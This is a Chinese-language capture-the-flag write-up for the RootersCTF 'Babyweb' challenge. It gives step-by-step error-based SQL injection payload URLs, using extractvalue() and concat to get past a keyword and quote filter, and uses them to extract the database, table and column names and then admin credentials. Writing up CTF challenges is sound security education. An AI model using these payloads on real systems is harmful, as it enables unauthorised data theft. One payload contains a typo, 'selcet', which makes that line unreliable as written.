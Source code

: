 RootersCTF-Babyweb
======
My junior dev just set up a password protected webpage. Can you get in?

分析过程
------

打开链接提示管理员的密码是18位，并且过滤掉了UNION SLEEP ' " OR - BENCHMARK。因此利用爆破出密码是比较不现实的，结合题目提示是使用注入方法。看到单引号和双引号被过滤，猜测是被反斜杠转义掉，便尝试宽字节注入，使用`%df%27`进行测试，结果注入失败。<br><br>
并且提示UNION、OR也都被过滤，原本想着利用大小写或者编码绕过，但是引号既然不能成功绕过，说明不能用闭合引号进行注入。经过多次尝试发现利用`extractvalue()`函数进行报错注入可以成功实现注入,因此可以结合concat函数实现注入。<br><br>
`extractvalue()`：函数功能是从目标XML中返回包含所查询值的字符串。<br>
>EXTRACTVALUE (XML_document, XPath_string);<br>
>>第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc<br>
>>第二个参数：XPath_string (Xpath格式的字符串)<br>
 extractvalue注入的原理：如同updatexml一样，extract的第二个参数要求是xpath格式字符串，而我们输入的并不是。所以报错。<br><br>

注入过程
------

1、爆库名<br>
```
https://babyweb.rootersctf.in/index.php?search=1 and extractvalue(1,concat(0x7e,(select%0adatabase()),0x7e)) <br>
```
回显XPATH syntax error:\~SQLinjection\~，爆出了库名SQLinjection<br>
2、爆表名<br>
```
https://babyweb.rootersctf.in/index.php?search=1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))<br>
```
回显XPATH syntax error:\~users\~，爆出了表名users<br>
这里需要说名一下，由于单双引号被过滤，故注入语句中如果有字符串需要单双引号，应当尽量避免，这里可以使用查询语句的多重利用避免，当然直接填库名也是不需要单双引号的（下面表名同理）。<br>
3、爆列名<br>
```
https://babyweb.rootersctf.in/index.php?search=1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=(select group_concat(table_name) from information_schema.tables where table_schema=database())),0x7e))<br>
```
回显XPATH syntax error:\~user、uniqueid\~，爆出列名user、uniqueid，这两个列里肯定有我们需要的重要内容。<br>
4、爆字段<br>
```
https://babyweb.rootersctf.in/index.php?search=1 and extractvalue(1,concat(0x7e,(selcet uniqueid/user from users limit 1),0x7e));<br>
```
这里分两步分别爆出admin和其对应的18位的uniqueid，拿去尝试登录，成功登路并拿到flag。<br>
由于环境不能复现，做题的时候也没有截图，这里不再贴出图片。<br><br>
报错注入参考链接：https://www.jianshu.com/p/bf5edd484957<br>
